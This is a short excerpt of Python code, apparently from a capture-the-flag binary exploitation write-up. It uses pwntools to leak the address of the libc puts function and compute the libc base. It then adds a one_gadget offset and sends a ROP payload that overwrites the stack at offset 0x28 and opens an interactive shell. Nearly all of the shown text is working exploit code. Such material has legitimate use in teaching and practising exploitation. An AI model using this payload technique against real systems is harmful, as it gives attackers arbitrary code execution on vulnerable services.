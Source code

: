 ```python
log.info(f'second stage out: {io.recvline()}')

libc_puts_addr = u64(io.recvline().strip().ljust(8,b"\x00"))

log.success(f'LIBC LEAKED PUTS ADDR: {hex(libc_puts_addr)}')

libc_base_addr = libc_puts_addr - libc.sym.puts

log.success(f'LIBC BASE ADDR: {hex(libc_base_addr)}')

libc.address = libc_base_addr

one_gadget_offset = 0xef52b

execve_addr = libc_base_addr + one_gadget_offset

final_payload = flat({
    0x28: [
        pop_rbp_ret,
        landing_addr+0x150,
        execve_addr
           ]
    })

io.sendline(final_payload)


io.interactive()
```

